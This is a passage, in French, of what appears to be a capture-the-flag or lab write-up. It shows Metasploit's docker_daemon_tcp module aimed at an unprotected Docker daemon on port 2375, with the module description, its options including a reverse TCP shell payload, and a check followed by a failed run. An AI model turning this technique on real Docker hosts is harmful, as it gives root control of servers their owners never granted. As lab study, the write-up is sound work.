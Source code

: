 Et en effet il semble que ce container ait accès au port 2375 de Docker qu'on avait vu protégé.  

Metasploit dispose d'un module adapté *linux/http/docker\_daemon\_tcp* dont voici la description :  

```plain
Description:
  Utilizing Docker via unprotected tcp socket (2375/tcp, maybe 
  2376/tcp with tls but without tls-auth), an attacker can create a 
  Docker container with the '/' path mounted with read/write 
  permissions on the host server that is running the Docker container. 
  As the Docker container executes command as uid 0 it is honored by 
  the host operating system allowing the attacker to edit/create files 
  owned by root. This exploit abuses this to creates a cron job in the 
  '/etc/cron.d/' path of the host server. The Docker image should 
  exist on the target system or be a valid image from hub.docker.com.
```

Vu que la VM est en host-only il va falloir être en mesure d'utiliser une image existante en local, sans quoi :  

```plain
msf6 exploit(linux/http/docker_daemon_tcp) > show options

Module options (exploit/linux/http/docker_daemon_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CONTAINER_ID                   no        container id you would like
   DOCKERIMAGE   alpine:latest    yes       hub.docker.com image to use
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        127.0.0.1        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         2375             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                          no        HTTP server virtual host

Payload options (linux/x64/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.4     yes       The listen address (an interface may be specified)
   LPORT  7777             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Linux x64

msf6 exploit(linux/http/docker_daemon_tcp) > check
[+] 127.0.0.1:2375 - The target is vulnerable.
msf6 exploit(linux/http/docker_daemon_tcp) > run

[*] Started reverse TCP handler on 192.168.56.4:7777 
[*] Trying to pulling image from docker registry, this may take a while
[-] Exploit aborted due to failure: unknown: Failed to pull the docker image
[*] Exploit completed, but no session was created.
```
